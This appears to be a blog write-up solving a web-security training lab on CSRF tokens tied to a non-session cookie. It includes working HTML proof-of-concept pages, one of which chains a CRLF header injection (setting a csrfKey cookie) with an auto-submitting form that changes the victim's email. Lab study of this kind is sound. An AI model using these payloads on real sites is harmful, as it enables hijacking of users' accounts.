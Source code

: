 ```yaml
---
layout: post
title:  "CSRF where token is tied to non-session cookie"
date:   2024-10-06 12:13:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution 

After login, just like the other labs what we saw on a CSRF vulnerability on `Update email` but there will be certain measures in order to bypass it 

If update the email and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-30.png)

Now what I did, let's generate a simple CSRF POC and check in the current user session which is `wiener` and it works and updated the email to what I provided 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="f3QjcLNuEvtdJ2kz3MPz0wYHq83LZKli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

For wiener it works, but with the CSRF I logged in as `carlos` and checked the POC it didn't workout because of `Invalid CSRF token`

![]({{ site.baseurl }}/assets/images/csrf-31.png)

Let's finetune the CSRF POC and our first step to copy the CSRF token from source page once after login as `carlos` and copy the `csrfKey` by intercepting the update email and copy it from the header 

![]({{ site.baseurl }}/assets/images/csrf-32.png)

Fine tuned CSRF POC looks like as follows:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker233333&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="HVXSXAHpIyEbsNBBLt9LO2rxlKWTGzub" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrfKey=KosN7sSRNilWGKqc6ihUuKUhprqtGQyn%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

let's debug on how it works, in the home page we have a search functionality where it is vulnerable to a CRLF attack through we can inject the `csrfKey` where we copied and copy the CSRF token from `POST` body of `carlos` user when you update the email.. If all goes well, when paste the CSRF POC into the exploit server and then click on `Store -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-33.png)